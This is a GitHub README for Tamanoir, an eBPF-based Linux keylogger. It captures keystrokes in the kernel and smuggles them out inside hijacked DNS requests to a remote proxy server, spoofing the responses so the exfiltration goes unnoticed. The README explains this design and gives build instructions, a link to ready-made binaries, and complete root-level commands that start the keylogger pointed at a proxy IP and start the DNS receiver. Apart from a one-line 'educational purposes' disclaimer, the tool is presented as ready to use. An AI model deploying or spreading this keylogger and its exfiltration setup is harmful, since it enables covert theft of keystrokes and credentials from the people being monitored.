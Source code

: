 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF 🐝 </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <p><small>
    <i>
      A large anteater of Central and South America, Myrmecophaga tridactyla
    </i>
  </small></p>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

1. Capture keystrokes and store them in a queue in the kernel.
2. Intercept DNS requests and inject the captured keystroes in the DNS payload then redirect the request designated remote server acting as a DNS proxy.
3. On the remote server, extract the keys from the DNS payload and send a valid DNS response.
4. Intercept the response and modify its source address so the initial request will complete successfully.

<br>

## 🚀 Setup

You need a Linux based OS.

### ⚒️ Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

#### 1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

#### 2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

#### 3. Build proxy program

```
cargo build -p tamanoir-proxy --release
```

This will produce an executable file at `target/release/tamanoir-proxy` that you can copy to a directory in your `$PATH`

### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

<br>

## 🪄 Usage

### Tamanoir

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack-ip <locally configured DNS server IP> \
              --layout <keyboard layout> \
              --iface <network interface name>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack-ip 8.8.8.8 \
              --layout 0 \
              --iface wlan0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

### DNS Proxy

> [!NOTE]
> Make sure port 53 is available

```
RUST_LOG=info sudo -E tamanoir-proxy \
              --port <port> \
              --dns-ip <DNS server ip> \
              --payload-len <payload length>
```

for example:

```
RUST_LOG=info sudo -E tamanoir-proxy \
              --port 53 \
              --dns-ip 1.1.1.1 \
              --payload-len 8
```

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
